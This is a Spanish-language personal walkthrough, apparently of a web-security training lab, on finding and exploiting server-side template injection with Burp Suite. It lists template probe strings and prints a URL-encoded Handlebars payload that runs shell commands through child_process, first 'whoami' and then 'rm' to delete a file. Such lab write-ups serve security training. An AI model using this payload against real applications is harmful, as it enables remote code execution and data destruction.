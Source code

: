 
![[Pasted image 20221020121934.png]]

este lab no tiene autentication, cuando quiero ver el detalle de un producto hay un mensaje que se muestra

![[Pasted image 20221020122203.png]]

este es el get request

![[Pasted image 20221020122404.png]]

enviamos al intruder esta mismo request

![[Pasted image 20221020122534.png]]

en este momento la idea es probar que tipo de lenguaje y template engine tiene este lab, para eso utilizaremos el siguiente listado de payloads tomados de hacktrickz:

![[Pasted image 20221020122756.png]]

{{7*7}}

${7*7}

<%= 7*7 %>

${{7*7}}

#{7*7}

*{7*7}

![[Pasted image 20221020122944.png]]

luego me voy a options y voy a extraer la variable que he creado (custommessage)

me voy a:
1. Grep Extract
2.  Add
3. refetch response
4. en la barra de busqueda pongo custommessage, lo sombreo y le doy ok

![[Pasted image 20221020123254.png]]

![[Pasted image 20221020123407.png]]


con esto le doy Start Attack

![[Pasted image 20221020123449.png]]


me interesa los que me generaron error, ordenandolos por esa columna

![[Pasted image 20221020123524.png]]

hago click en una de ellos, en el response le doy click derecho y selecciono Show in browser, copio la direccion y la pego en el navegador

![[Pasted image 20221020123639.png]]

![[Pasted image 20221020123710.png]]

vemos que el lab esta usando handlebars

entonces busco un payload relacionado a handlebars, de hecho, este fue un bounty relacionado a shopify

![[Pasted image 20221020123929.png]]

copio el payload y lo pego en el repeater en el request que ya habia cachado

![[Pasted image 20221020124140.png]]

pero ahora tengo que cortarlo y pasarlo al encoder para decode como URL:

![[Pasted image 20221020124326.png]]


%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d

seguidamente en el repeater en lugar de custommessage pego este decode y ejecuto, si todo sale bien debo buscar en el output un custommessage:

![[Pasted image 20221020124814.png]]

efectivamente tuvo un status 200 y veo que hay un codigo ejecutado:

![[Pasted image 20221020124853.png]]


ahora regreso al decoder y en lugar del whoami pongo el comando rm /home/carlos/morale.txt

![[Pasted image 20221020125028.png]]

esta vez voy a dejar antes custommessage para poder ubicar el resultado

![[Pasted image 20221020125243.png]]


![[Pasted image 20221020125218.png]]


![[Pasted image 20221020125315.png]]






